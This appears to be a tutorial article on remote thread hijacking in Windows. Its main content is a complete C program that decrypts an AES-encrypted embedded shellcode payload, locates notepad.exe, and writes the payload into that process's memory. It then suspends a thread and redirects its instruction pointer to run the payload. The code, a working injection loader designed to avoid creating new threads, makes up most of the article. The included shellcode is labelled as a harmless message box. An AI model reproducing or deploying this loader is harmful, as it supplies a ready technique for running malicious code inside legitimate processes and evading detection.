 # Hijacking Remote Thread

## Introduction

This article demonstrates how to inject shellcode into a remote process by hijacking an existing thread—an effective method that avoids creating a new thread for code injection.

The technical details will be covered in the code section—this part focuses on basic concepts to help you understand the article.

![image](https://github.com/user-attachments/assets/7082a0b8-7c46-4852-bae5-c6476fcb675a)

### What about Shellcode Injection in Remote Process?

Remote process code injection involves executing your code within another active process by identifying its PID and injecting the payload into it.

Here’s a detailed example with a clear explanation, taken from one of my latest articles.

> Process Code Injection\
Introduction [medium.com](https://medium.com/@s12deff/process-code-injection-d3ad8d0c3bbd)

## Process Thread

A thread is a lightweight and efficient unit of execution used to perform specific tasks within a process.

A thread is a dispatchable unit of work within a process. It includes a processor context (which includes the program counter and stack pointer) and its own data area for a stack (to enable subroutine branching). A single thread in itself executes sequentially and is interruptible so that the processor can turn to another thread.

> ~ Willam Stallings (Computer Organization and Architecture, 10th Ed.)

A thread is a set of tasks within a process that can execute independently. For example, in a word processor like MS Word, tasks such as spell check, grammar check, and auto-saving can be assigned to separate threads as they operate independently and concurrently.

## Code
```C
#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment(lib, "crypt32.lib")
#pragma comment(lib, "advapi32")

// MessageBox shellcode - 64-bit
unsigned char payload[] = {0x23, 0xe5, 0x84, 0x36, 0xce, 0x23, 0x3b, 0xe7, 0x55, 0x66, 0x8, 0x50, 0xf3, 0x44, 0xc2, 0xe8, 0x90, 0xf0, 0x8, 0x60, 0x2c, 0x2a, 0xcc, 0x7c, 0xf1, 0x6a, 0xa5, 0x48, 0x10, 0x57, 0x10, 0x7e, 0x10, 0x24, 0x5, 0x90, 0x40, 0x14, 0x7d, 0xd3, 0xba, 0x4e, 0x7f, 0x5, 0xb7, 0x17, 0xa3, 0x4, 0x91, 0x5, 0x97, 0xd7, 0xcb, 0xa2, 0x34, 0x7c, 0x90, 0xc9, 0x4f, 0x65, 0x9d, 0x18, 0x29, 0x15, 0xd8, 0xf9, 0x1d, 0xed, 0x96, 0xc4, 0x1f, 0xee, 0x2c, 0x80, 0xc8, 0x15, 0x4b, 0x68, 0x46, 0xa0, 0xe8, 0xc0, 0xb8, 0x5f, 0x5e, 0xd5, 0x5d, 0x7d, 0xd2, 0x52, 0x9b, 0x20, 0x76, 0xe0, 0xe0, 0x52, 0x23, 0xdd, 0x1a, 0x39, 0x5b, 0x66, 0x8c, 0x26, 0x9e, 0xef, 0xf, 0xfd, 0x26, 0x32, 0x30, 0xa0, 0xf2, 0x8c, 0x2f, 0xa5, 0x9, 0x2, 0x1c, 0xfe, 0x4a, 0xe8, 0x81, 0xae, 0x27, 0xcf, 0x2, 0xaf, 0x18, 0x54, 0x3c, 0x97, 0x35, 0xfe, 0xaf, 0x79, 0x35, 0xfa, 0x99, 0x3c, 0xca, 0x18, 0x8d, 0xa1, 0xac, 0x2e, 0x1e, 0x78, 0xb6, 0x4, 0x79, 0x5e, 0xa7, 0x6d, 0x7f, 0x6e, 0xa3, 0x34, 0x8b, 0x68, 0x6d, 0x2a, 0x26, 0x49, 0x1e, 0xda, 0x5e, 0xe4, 0x77, 0x29, 0x6e, 0x15, 0x9, 0x69, 0x8b, 0x8d, 0xbd, 0x42, 0xb6, 0xd9, 0xb0, 0x90, 0xd8, 0xa1, 0xb9, 0x37, 0x80, 0x8c, 0x5d, 0xaf, 0x98, 0x11, 0xef, 0xe1, 0xcf, 0xec, 0xe7, 0xc5, 0x58, 0x73, 0xf, 0xce, 0x1e, 0x27, 0x9e, 0xc0, 0x8a, 0x36, 0xd5, 0x6b, 0x9d, 0x52, 0xe, 0x68, 0x30, 0x7c, 0x45, 0x7c, 0xb3, 0xc1, 0x3f, 0x88, 0xdc, 0x78, 0x2, 0xe6, 0xbf, 0x45, 0x2d, 0x56, 0x76, 0x15, 0xc8, 0x4c, 0xe2, 0xcd, 0xa4, 0x46, 0x38, 0x6b, 0x41, 0x2b, 0xdf, 0x24, 0x2c, 0xf1, 0x82, 0x78, 0xd1, 0xc4, 0x83, 0x7f, 0x33, 0xb5, 0x8c, 0xf7, 0xac, 0x30, 0x14, 0x0, 0x6f, 0xba, 0xf7, 0x13, 0x51, 0x6a, 0x17, 0x1c, 0xf7, 0xcd, 0x43, 0x79, 0xc2, 0x57, 0xa0, 0x9c, 0x7b, 0x12, 0xce, 0x45, 0x41, 0x4e, 0xb7, 0x6b, 0xbd, 0x22, 0xc, 0xfb, 0x88, 0x2a, 0x4c, 0x2, 0x84, 0xf4, 0xca, 0x26, 0x62, 0x48, 0x6e, 0x9b, 0x3b, 0x85, 0x22, 0xff, 0xf0, 0x4f, 0x55, 0x7b, 0xc3, 0xf4, 0x9d, 0x2d, 0xe8, 0xb6, 0x44, 0x4a, 0x23, 0x2d, 0xf9, 0xe1, 0x6, 0x1c, 0x74, 0x23, 0x6, 0xdb, 0x3c, 0x3c, 0xa6, 0xce, 0xcf, 0x38, 0xae, 0x87, 0xd1, 0x8};
unsigned char key[] = {0xc0, 0xa6, 0x8b, 0x1b, 0x59, 0x92, 0xcf, 0x6b, 0xef, 0x96, 0xe7, 0xd7, 0x33, 0x65, 0xda, 0x84};

unsigned int payload_len = sizeof(payload);

// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID
{
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

int AESDecrypt(char *payload, unsigned int payload_len, char *key, size_t keylen)
{
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT))
    {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash))
    {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE *)key, (DWORD)keylen, 0))
    {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey))
    {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE *)payload, (DWORD *)&payload_len))
    {
        return -1;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}

int FindTarget(const char *procname)
{

    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;

    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap)
        return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hProcSnap, &pe32))
    {
        CloseHandle(hProcSnap);
        return 0;
    }

    while (Process32Next(hProcSnap, &pe32))
    {
        if (lstrcmpiA(procname, pe32.szExeFile) == 0)
        {
            pid = pe32.th32ProcessID;
            break;
        }
    }

    CloseHandle(hProcSnap);

    return pid;
}

HANDLE FindThread(int pid)
{

    HANDLE hThread = NULL;
    THREADENTRY32 thEntry;

    thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

    while (Thread32Next(Snap, &thEntry))
    {
        if (thEntry.th32OwnerProcessID == pid)
        {
            hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
            break;
        }
    }
    CloseHandle(Snap);

    return hThread;
}

int InjectCTX(int pid, HANDLE hProc, unsigned char *payload, unsigned int payload_len)
{

    HANDLE hThread = NULL;
    LPVOID pRemoteCode = NULL;
    CONTEXT ctx;

    // find a thread in target process
    hThread = FindThread(pid);
    if (hThread == NULL)
    {
        printf("Error, hijack unsuccessful.\n");
        return -1;
    }

    // Decrypt payload
    AESDecrypt((char *)payload, payload_len, (char *)key, sizeof(key));

    // perform payload injection
    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);

    // execute the payload by hijacking a thread in target process
    SuspendThread(hThread);
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(hThread, &ctx);
#ifdef _M_IX86
    ctx.Eip = (DWORD_PTR)pRemoteCode;
#else
    ctx.Rip = (DWORD_PTR)pRemoteCode;
#endif
    SetThreadContext(hThread, &ctx);

    return ResumeThread(hThread);
}
int main(void)
{

    int pid = 0;
    HANDLE hProc = NULL;

    pid = FindTarget("notepad.exe");

    if (pid)
    {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                                PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                            FALSE, (DWORD)pid);

        if (hProc != NULL)
        {
            InjectCTX(pid, hProc, payload, payload_len);
            CloseHandle(hProc);
        }
    }
    return 0;
}
```

Functions in the code are as follows :

- **AESDecrypt:** This function is straightforward, with the key being a critical element. The `Key` variable is passed to the `AESDecrypt` function, where the public decryption code for AES is applied.

- **FindTarget:** This function takes the name of a process and returns its PID (Process ID). It uses `CreateToolhelp32Snapshot` to capture a snapshot of current processes, and `Process32First` and `Process32Next` to retrieve the PID of the targeted process.

- **FindThread:** This function works similarly to FindTarget, but instead of locating a process, it identifies a thread.

